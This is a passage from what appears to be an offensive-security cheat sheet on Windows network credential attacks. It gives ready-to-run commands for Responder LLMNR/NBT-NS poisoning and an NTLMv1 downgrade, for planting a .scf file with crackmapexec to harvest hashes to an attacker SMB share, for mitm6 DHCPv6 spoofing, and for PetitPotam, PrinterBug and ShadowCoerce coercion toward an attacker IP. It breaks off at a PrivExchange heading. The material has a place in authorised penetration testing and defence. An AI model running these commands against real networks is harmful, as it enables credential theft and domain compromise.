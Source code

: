 ```bash
sed -i 's/ Random/ 1122334455667788/g' Responder/Responder.conf
```

Catch all the possible hashes on the network (coming via LLMNR, NBT-NS, DNS spoofing, etc):

```bash
# Responder with WPAD injection, Proxy-Auth, DHCP, DHCP-DNS and verbose
responder -I interface_to_use -wPdDv
```

Force NTLM downgrade to NTLMv1 (will break the authentications if v1 is disabled on the machine):

```bash
# --disable-ess will disable the SSP, not always usefull
responder -I interface_to_use -wdDv --lm --disable-ess
```

**NTLMv1** response can be cracked on [crash.sh](https://crack.sh/).

#### Leak Files

With write rights on a SMB share, it is possible to drop a `.scf` file to grab some user hashes:

```bash
crackmapexec smb <target> -u user1 -p password -M slinky -o SERVER=<attacker_SMB_share_IP> -o NAME=<file_name>

#To clean
crackmapexec smb <target> -u user1 -p password -M slinky -o CLEANUP=True
```

#### MITM6

Spoof DHCPv6 responses. Usefull to combine with NTLM or Kerberos Relay attacks.

```bash
mitm6 -i interface_to_use -d domain.local
```

#### PetitPotam / PrinterBug / ShadowCoerce

Exploits to coerce Net-NTLM authentication from a computer. **PetitPotam** can be used without any credentials if no patch has been installed.

```bash
#PetitPotam
./petitpotam.py -u user1 -p password -d domain.local -pipe all <attacker_IP> <target_IP>

#PrinterBug
./dementor.py -u user1 -p password -d domain.local <attacker_IP> <target_IP>

#ShadowCoerce
shadowcoerce.py -u user1 -p password -d domain.local <attacker_IP> <target_IP>
```

#### PrivExchange

Coerce Exchange server authentication via **PushSubscription** (now patched):
